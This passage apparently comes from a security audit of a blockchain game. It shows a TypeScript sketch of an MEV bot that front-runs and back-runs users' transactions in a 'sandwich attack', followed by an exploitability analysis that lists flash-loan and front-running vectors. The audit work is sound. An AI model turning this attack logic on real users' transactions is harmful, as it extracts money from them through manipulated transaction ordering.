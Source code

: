 ```typescript
                const frontRunTx = await this.createFrontRunTransaction(logs);

                // 3. Submit with higher priority fee
                await this.connection.sendTransaction(frontRunTx, [this.mevBot], {
                    skipPreflight: true,
                    maxRetries: 0,
                });

                // 4. Create back-running transaction
                const backRunTx = await this.createBackRunTransaction(logs);
                await this.connection.sendTransaction(backRunTx, [this.mevBot]);
            }
        });
    }

    async executeSandwichAttack(userTx: Transaction): Promise<void> {
        // 1. Analyze user transaction for sandwich opportunity
        const analysis = this.analyzeTransaction(userTx);

        if (analysis.sandwichProfitable) {
            // 2. Front-run: Manipulate state before user
            const frontRunTx = this.createStateManipulationTx(analysis);
            await this.sendWithHighPriority(frontRunTx);

            // 3. User transaction executes with manipulated state
            // (User submits their own transaction)

            // 4. Back-run: Extract profit from manipulation
            const backRunTx = this.createProfitExtractionTx(analysis);
            await this.sendWithHighPriority(backRunTx);

            // Result: Guaranteed profit from user's transaction
        }
    }
}
```

## ⚡ Exploitability Analysis

**Likelihood**: High (flash loans and MEV are common in DeFi)
**Complexity**: High (requires sophisticated transaction strategies)
**Prerequisites**:
- Access to flash loan protocols
- MEV bot infrastructure
- Deep understanding of transaction ordering
- Capital for priority fees

**Attack Vectors**:
- [x] **Flash loan manipulation of game economics**
- [x] **MEV front-running of user transactions**
- [x] **Sandwich attacks on game operations**
- [x] **Atomic transaction exploitation**
